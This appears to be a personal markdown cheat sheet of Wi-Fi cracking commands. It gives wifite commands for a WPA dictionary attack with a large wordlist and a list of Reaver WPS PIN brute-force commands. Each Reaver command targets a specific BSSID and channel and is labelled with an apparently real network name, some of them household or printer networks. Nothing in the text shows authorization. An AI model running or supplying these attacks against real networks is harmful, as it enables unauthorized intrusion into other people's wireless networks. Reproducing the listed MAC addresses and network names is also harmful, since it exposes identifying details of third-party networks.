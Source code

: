 [David Bombal: AirCrack](https://www.youtube.com/watch?v=WfYxrLaqlN8)

<br>

---

## Wifite

```bash
#
sudo wifite

#
sudo wifite --wpa --dict ~/Documents/Wordlists/rockyou2021/rockyou2021.txt --kill
```

<br>

---

## Reaver

```bash
sudo reaver --interface wlan0mon --bssid 90:F6:52:F0:C5:B4 -vv

# Attack (Canavial Connected)
sudo reaver --interface wlan0mon --bssid 90:F6:52:F0:C5:B4 --channel 1 --dh-small --no-nacks --delay 15 -vvv

# Attack (BELL776)
sudo reaver --interface wlan0mon --bssid 84:A1:D1:52:87:A6 --channel 11 --dh-small --no-nacks --delay 60 -vvv

# Attack (JBellini 2.4)
sudo reaver --interface wlan0mon --bssid 50:C7:BF:25:56:6D --channel 6 --dh-small --no-nacks --delay 60 -vvv

# Attack (Bellini Gelo 2Ghz)
sudo reaver --interface wlan0mon --bssid 98:DA:C4:DD:E4:6C --channel 5 --dh-small --no-nacks --delay 65 -vvv

# Attack (Lili)
sudo reaver --interface wlan0mon --bssid 70:4F:57:0E:17:58 --channel 1 --dh-small --no-nacks --delay 15 -vvv

# Attack (DIRECT-76-HP E55040 LaserJet)
sudo reaver --interface wlan0mon --bssid EA:6F:38:12:4F:76 --channel 2 --dh-small --no-nacks --delay 15 -vv

# Attack (VIVO-7314 - APMP)
sudo reaver --interface wlan0mon --bssid D8:C6:78:0F:73:14 --channel 11 --dh-small --no-nacks --delay 15 -vv
# Error: WPS transaction failed (code: 0x03), re-trying last pin

# Attack (2G GAULIA 1981) Santos
sudo reaver --interface wlan0mon --bssid 6C:55:E8:C3:C4:98 --channel 1 --dh-small --no-nacks --delay 15 -vv

# Attack (Domingo) Santos
sudo reaver --interface wlan0mon --bssid 98:7E:CA:1C:B4:7F --channel 1 --dh-small --no-nacks --delay 15 -vv

# Attack (Bety1310) Santos
sudo reaver --interface wlan0mon --bssid 94:6A:77:27:29:EE --channel 11 --dh-small --no-nacks --delay 15 -vv
```
